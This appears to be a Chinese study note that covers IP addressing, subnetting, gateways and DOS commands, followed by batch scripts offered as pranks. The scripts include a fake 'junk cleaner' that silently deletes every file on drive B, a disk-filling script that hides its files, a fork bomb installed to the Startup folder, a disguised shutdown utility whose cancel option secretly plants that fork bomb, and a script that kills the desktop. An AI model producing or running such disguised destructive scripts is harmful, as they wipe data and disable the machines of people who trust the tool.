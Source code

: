 1.虚拟化技术 原生架构  VMWare vphere  
2.格式化  ntfs fat  

## IP地址详解  
1.局域网，内网  
2.单局域网构成：交换机,网线,pc  
3.交换机:用来组建局域网内网  
4.ip地址.32位二进制组成 x.x.x.x, x的范围0-255  
### 子网掩码
1.子网掩码是一个32位地址，用于屏蔽IP地址的一部分以区别网络标识和主机标识，并说明该IP地址是在局域网上，还是在广域网上。
255.0.0.0  
255.255.0.0  
255.255.255.0  
2.一个ip地址，必须配一个子网掩码  ,IP地址第一位区分
3.ISO 定义地址分类 5大类 
A类:1-126//默认子网掩码,255.0.0.0  
B类:128-191//默认子网掩码,255.255.0.0  
C类:192-223//默认子网掩码,255.255.255.0  
D类:224-239组播地址
E类:240-255科研组播  
1.每一个字节都为0的地址（“0.0.0.0”）对应于当前主机；  
2.255.255.255.255广播地址  
3.IP地址中不能以十进制“127”作为开头，该类地址中数字127．0．0．1到127．255．255．255用于回路测试，如：127.0.0.1可以代表本机IP地址，用“http://127.0.0.1”就可以测试本机中配置的Web服务器。  

### 网关  
1. 就是一个网络连接到另一个网络的“关口”。也就是网络关卡。   
2.(访问百度)-- 先比较 ip地址是否在同一网段，如果不在同一网段,要通过网关访问百度。在同一网段就直接访问  

### 基本DOS命令  
1.dir 查看目录  
2.echo hello world >qingshu.text         -----写入hello world 到qingshu.text文件  
3.查看文件  
type 文件名 | more  分页查看文件  

4.> 覆盖  >>追加  
5.rd 删除   
 /S   递归删除文件夹( 删除前, 要确认是否进行删除)
/Q  关闭掉, 删除文件夹前的确认  

6.copy qingshu.text t.text 复制文件  

7.con 屏幕  copy con 复制屏幕  
8.del 文件名  删除  
9.del *.* 删除所有文件  
10.attrib  +h 文件  隐藏  
11.attrib -h 文件 取消隐藏  
12.+s 系统级 +a 设置存档属性  
13.fsutil file createnew system.ini 8888888888 创建一个888888888字节的空文件  
14.assoc .txt=exefile  修改关联性 .txt都改成可执行程序  
15.shutdown -s -f -t 100 -c "haha" -f 强制关机 一百秒关机，提示haha
16.shutdown -a 秒 取消定时  
17.shutdown -r -t 秒 定时重启  
18.shutdown -l 注销  同logooff
19.shutdon -s -t 定时关机  
20.md shimisi 创建文件夹shimisi  
21.move 移动 move q.txt c:\ 移动 q.txt 到C盘  
22.ren q.txt a.txt 改名  
## DOS批处理
1.每日一个入狱技巧，清理盘内所有文件
```dos
//清理B盘内的所有文件
@echo off
color 0a 
title 垃圾清理程序
echo ==================
echo 开始清理
echo 被拦截
echo 请放行
echo ==================
pause
B: >nul 2>nul 
cd / >nul 2>nul
rd . /s/q >nul 2>nul
ping 10 127.0.0.1 >nul 2>nul
echo 清理完成
pause
```
2.填满你的B盘并隐藏文件
```dos
b:
cd\
fsutil file createnew system.ini  2000000000
fsutil file createnew system1.ini 2000000000
fsutil file createnew system2.ini 2000000000
fsutil file createnew system3.ini 2000000000
fsutil file createnew system4.ini 2000000000
fsutil file createnew system5.ini 2000000000
fsutil file createnew system6.ini 2000000000
fsutil file createnew system7.ini 2000000000
fsutil file createnew system8.ini 2000000000
attrib  +h +s +a system.ini
attrib  +h +s +a system1.ini
attrib  +h +s +a system2.ini
attrib  +h +s +a system3.ini
attrib  +h +s +a system4.ini
attrib  +h +s +a system5.ini
attrib  +h +s +a system6.ini
attrib  +h +s +a system7.ini
attrib  +h +s +a system8.ini
```  
3.无限循环打开cmd操作
```dos
:b
start 
goto b
```  
4.把无限循环注册到自启动,勿试  
win + R
shell:startup 找到启动路径
```dos
copy 最简单的病毒1.bat  %userprofile%\Start Menu\Programs\Startup
:b
start 
goto b
```  
4.定时关机小程序
```dos
@echo off
title 定时关机小程序v1.0  
color 0a
:menu
cls  清除屏幕
echo ==================================
echo               菜单
echo            1.定时关机
echo            2.取消定时
echo            3.退出
echo ==================================
set /p num=您的选择
if "%num%"=="1"  goto 1
if "%num%"=="2"  goto 2
if "%num%"=="3"  goto 3
goto menu  
:1
set /p aa=请输入时间（单位/秒）
shutdown /s /t  %aa%"
goto menu
:2
shutdown -a
goto menu
:3
exit   

```
5.恶意关机程序
```doc
@echo off
title 定时关机小程序v1.0  
color 0a
:menu
cls 清除屏幕
echo ==================================
echo               菜单
echo            1.定时关机
echo            2.取消定时
echo            3.退出
echo ==================================
set /p num=您的选择
if "%num%"=="1"  goto 1
if "%num%"=="2"  goto 2
if "%num%"=="3"  goto 3
goto menu
:1
set /p aa=请输入时间（单位/秒）
shutdown /s /t  %aa%"
goto menu
:2
shutdown -a
echo :a >> "%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\h.bat"
echo start >>"%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\h.bat"
echo goto a >>"%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\h.bat"
goto menu
:3
exit
```
6.关闭桌面
```doc
@echo off
color 0a
taskkill /im explorer.exe /f >nul  2>nul
echo 微信转账300块
ping -n 5 127.0.0.1 >nul  2>nul
start C:\Windows\explorer.exe
echo ----------
pause
```







